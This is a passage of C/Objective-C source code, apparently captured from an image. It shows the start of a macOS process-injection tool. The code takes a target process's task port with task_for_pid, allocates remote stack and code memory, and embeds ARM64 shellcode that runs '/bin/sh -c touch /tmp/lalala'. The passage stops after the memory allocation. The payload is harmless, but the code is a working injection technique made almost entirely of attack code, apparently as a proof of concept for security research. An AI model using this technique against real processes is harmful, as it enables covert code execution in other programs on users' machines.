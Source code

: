 ```objectivec
vm_map_t target_task,
mach_vm_address_t address,
vm_offset_t data,
mach_msg_type_number_t dataCnt
);


#else
#include <mach/mach_vm.h>
#endif


#define STACK_SIZE 65536
#define CODE_SIZE 128

// ARM64 shellcode that executes touch /tmp/lalala
char injectedCode[] = "\xff\x03\x01\xd1\xe1\x03\x00\x91\x60\x01\x00\x10\x20\x00\x00\xf9\x60\x01\x00\x10\x20\x04\x00\xf9\x40\x01\x00\x10\x20\x08\x00\xf9\x3f\x0c\x00\xf9\x80\x00\x00\x10\xe2\x03\x1f\xaa\x70\x07\x80\xd2\x01\x00\x00\xd4\x2f\x62\x69\x6e\x2f\x73\x68\x00\x2d\x63\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x61\x6c\x61\x6c\x61\x00";


int inject(pid_t pid){

task_t remoteTask;

// Get access to the task port of the process we want to inject into
kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
if (kr != KERN_SUCCESS) {
fprintf (stderr, "Unable to call task_for_pid on pid %d: %d. Cannot continue!\n",pid, kr);
return (-1);
}
else{
printf("Gathered privileges over the task port of process: %d\n", pid);
}

// Allocate memory for the stack
mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
mach_vm_address_t remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote stack in thread: Error %s\n", mach_error_string(kr));
return (-2);
}
else
{

fprintf (stderr, "Allocated remote stack @0x%llx\n", remoteStack64);
}

// Allocate memory for the code
remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote code in thread: Error %s\n", mach_error_string(kr));
return (-2);
}
```